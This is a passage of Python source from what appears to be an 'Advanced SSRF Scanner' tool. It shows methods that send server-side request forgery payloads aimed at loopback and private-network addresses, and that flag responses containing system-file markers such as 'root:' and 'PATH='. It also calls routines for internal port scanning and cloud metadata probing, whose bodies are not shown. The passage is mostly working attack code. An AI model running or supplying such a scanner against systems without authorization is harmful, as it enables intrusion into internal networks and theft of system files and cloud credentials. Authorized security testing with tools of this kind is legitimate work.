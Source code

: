 ```python
        
        results = []
        for payload in file_payloads:
            result = self.test_basic_ssrf(payload)
            
            if result.get('status_code') == 200:
                response_text = result.get('response_text', '')
                
                # Check for file content indicators
                if ('root:' in response_text or 
                    'localhost' in response_text or 
                    'Linux version' in response_text or
                    'PATH=' in response_text):
                    
                    results.append({
                        'type': 'File Access',
                        'payload': payload,
                        'severity': 'High',
                        'evidence': response_text[:200]
                    })
        
        return results
    
    def run_comprehensive_scan(self):
        """Run comprehensive SSRF scan"""
        print(f"[+] Starting comprehensive SSRF scan")
        print(f"[+] Target: {self.target_url}")
        print(f"[+] Parameter: {self.parameter}")
        
        all_results = {
            'basic_ssrf': [],
            'port_scan': [],
            'cloud_metadata': [],
            'file_access': []
        }
        
        # Test basic SSRF
        basic_payloads = [
            'http://127.0.0.1:80',
            'http://localhost:80',
            'http://192.168.1.1',
            'http://10.0.0.1'
        ]
        
        for payload in basic_payloads:
            result = self.test_basic_ssrf(payload)
            all_results['basic_ssrf'].append(result)
        
        # Port scanning
        all_results['port_scan'] = self.scan_internal_ports()
        
        # Cloud metadata testing
        all_results['cloud_metadata'] = self.test_cloud_metadata()
        
        # File access testing
        all_results['file_access'] = self.test_file_access()
        
        return all_results

def main():
    import argparse
    
    parser = argparse.ArgumentParser(description="Advanced SSRF Scanner")
```